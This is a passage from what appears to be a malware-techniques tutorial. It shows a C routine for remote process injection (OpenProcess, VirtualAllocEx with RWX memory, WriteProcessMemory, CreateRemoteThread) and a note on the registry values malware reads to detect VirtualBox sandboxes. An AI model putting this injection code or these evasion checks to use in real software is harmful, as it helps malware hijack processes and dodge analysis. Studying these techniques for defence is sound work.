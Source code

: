```c 
  }

  // Parse process ID
  printf("PID: %i", atoi(argv[1]));
  processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));

  // Allocate memory buffer for remote process
  remoteBuffer = VirtualAllocEx(processHandle, NULL, myPayloadLen, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);

  // "Copy" data between processes
  WriteProcessMemory(processHandle, remoteBuffer, myPayload, myPayloadLen, NULL);

  // Our process starts a new thread
  remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
  CloseHandle(processHandle);
  return 0;
}
```

#### Bonus 

In **HKLM\SYSTEM\ControlSet001\Services\Disk\Enum** registry path, **DeviceDesc** and **FriendlyName** are equal to VBOX and in ** HKLM\SYSTEM\CurrentControlSet\Control\SystemInformation** path, **SystemProdcutName**'s value is **VIRTUAL** or ** VIRTUALBOX**.

Sometimes malware iterate through sub-keys and verify if name of subkey contains particular string.

More on registry detection on [mitre](https://attack.mitre.org/techniques/T1497/) .

## Summary

